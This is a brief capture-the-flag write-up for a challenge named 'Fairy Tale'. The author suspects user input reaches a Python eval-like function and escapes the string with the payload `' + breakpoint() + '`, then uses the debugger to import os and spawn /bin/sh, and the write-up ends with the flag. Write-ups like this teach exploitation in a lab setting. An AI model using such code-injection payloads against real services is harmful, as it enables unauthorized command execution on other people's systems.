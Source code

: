 # Fairy Tale
> Type in your favorite hero and let Fairy Tale spin a unique story for you.

## About the Challenge
We got a server to connect without a source. Here is the preview of the challenge

![preview](images/preview.png)

If we try to input `'`, we'll get an error message like this:

![testing-phase](images/testing-phase.png)

It seems like our input is being passed into the `ast.literal_eval()` function

## How to Solve?
To solve this chall, im calling `breakpoint()` function and then call `/bin/sh` by importing `os` package

```
' + breakpoint() + '
```

![flag](images/flag.png)

```
ictf{b3_C4r3full_1n_3rr0r5}
```